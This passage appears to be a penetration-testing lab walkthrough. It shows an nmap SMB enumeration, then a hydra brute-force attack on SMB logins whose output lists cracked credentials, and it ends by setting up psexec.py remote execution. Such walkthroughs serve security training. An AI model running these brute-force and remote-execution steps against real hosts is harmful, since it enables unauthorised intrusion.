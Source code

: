 ```
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 81.51 seconds
```

_Next, narrow down the focus to the SMB service on port 445 to enumerate supported SMB dialects, which will help in choosing the correct exploitation method._

`nmap --script smb-protocols 10.4.27.105 -p 445`:
```
Starting Nmap 7.70 ( https://nmap.org ) at 2024-08-20 15:29 IST
Nmap scan report for 10.4.27.105
Host is up (0.0087s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-protocols: ←
|   dialects: 
|     2.02
|     2.10
|     3.00
|     3.02
|_    3.11

Nmap done: 1 IP address (1 host up) scanned in 6.36 seconds
```

_Use `hydra`, a password-cracking tool, to brute-force SMB credentials using the specified dictionaries. This step is crucial for gaining access to the SMB service._

`hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 10.4.27.105 smb2`:
```
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-08-20 15:47:55
[WARNING] Workgroup was not specified, using "WORKGROUP"
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking smb2://10.4.27.105:445/
[445][smb2] host: 10.4.27.105   login: sysadmin   password: princess ←
[445][smb2] host: 10.4.27.105   login: demo   password: bubbles
[445][smb2] host: 10.4.27.105   login: auditor   password: spongebob
[445][smb2] host: 10.4.27.105   login: administrator   password: superman ←
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-08-20 15:48:09
```

_Use the `psexec.py` script with the `sysadmin` credentials obtained from `hydra` to attempt to execute commands on the target machine remotely._
